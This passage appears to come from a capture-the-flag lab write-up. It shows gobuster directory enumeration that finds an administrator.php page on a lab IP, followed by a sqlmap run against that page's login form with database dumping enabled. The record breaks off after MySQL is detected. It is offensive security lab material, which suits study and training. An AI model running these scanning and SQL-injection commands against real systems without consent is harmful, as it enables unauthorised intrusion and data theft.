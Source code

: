 ```
2023/01/09 00:43:32 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/administrator.php    (Status: 200) [Size: 409]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 277]
Progress: 65862 / 81880 (80.44%)[ERROR] 2023/01/09 01:11:02 [!] Get "http://10.10.57.175/shop_image.php": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 81212 / 81880 (99.18%)[ERROR] 2023/01/09 01:17:35 [!] Get "http://10.10.57.175/yasitemap.txt": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 81876 / 81880 (100.00%)
===============================================================
2023/01/09 01:18:01 Finished
===============================================================

```

#  Web Exploitation 
```
aaron㉿kali)-[~/…/share/sqlmap/output/10.10.57.175]
└─$ sqlmap -u http://10.10.57.175/administrator.php --forms -dump       
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[.]_____ ___ ___  {1.6.12#stable}                                                                                                                                                                                                   
|_ -| . ["]     | .'| . |                                                                                                                                                                                                                   
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:28:58 /2023-01-09/

[02:28:58] [INFO] testing connection to the target URL
[02:28:59] [INFO] searching for forms
[1/1] Form:
POST http://10.10.57.175/administrator.php
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> y
Edit POST data [default: username=&password=] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] y
[02:29:07] [INFO] resuming back-end DBMS 'mysql' 
```